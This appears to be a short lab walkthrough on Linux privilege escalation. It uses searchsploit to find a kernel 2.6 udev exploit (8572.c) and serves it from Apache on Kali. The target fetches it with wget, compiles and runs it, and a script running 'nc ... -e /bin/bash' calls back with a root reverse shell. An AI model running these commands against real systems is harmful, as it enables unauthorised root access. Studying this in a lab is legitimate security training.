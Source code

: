 # Hacking II - Privilege Escalation 

## Prerequisites 

  * You need to have a reverse shell open (e.g. Hacking I - Session) 

## Walkthrough 

```
# STEP 1: Reverse shell (connected to target)
# In Reverse shell find out the kernel version 
uname -a
lsb_release -a

# STEP 2: On kali 
# Open 2nd kali terminal and search exploits 
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6

# find out source code c
less /usr/share/exploitdb/exploits/linux/local/8572.c

# Start apache server 
systemctl start apache2 

# Symbolic link to all the exploits 
ln -s /usr/share/exploitdb/exploits/linux/local/ /var/www/html/

# Create a run file we will need later 
vi /var/www/html/run
# ip will be the ip of our kali-server 
#!/bin/bash
nc 192.168.10.169 12345 -e /bin/bash

# STEP 3: Reverse shell (connected to target) 
# Download the files 
cd /tmp
wget http://192.168.10.169/run
wget http://192.168.10.169/local/8572.c
# compiling exploit in reverse shell
gcc -o exploit 8572.c
ls -l

# Finding the pid 
cat /proc/net/netlink
ps aux | grep udev

# STEP 4:
# on Kali start a listener 
nc -lvp 12345

# STEP 5:
# Back on reverse shell start the exploit 
# with the pid you got e.g. 2748 (that from cat /proc/net/netlink)  
./exploit 2748

# STEP 6:
# Go back to kali and in your listener enter 
whoami
```


## Ref: (root privileges)

  * https://samsclass.info/124/proj14/p18xLPE.htm
  
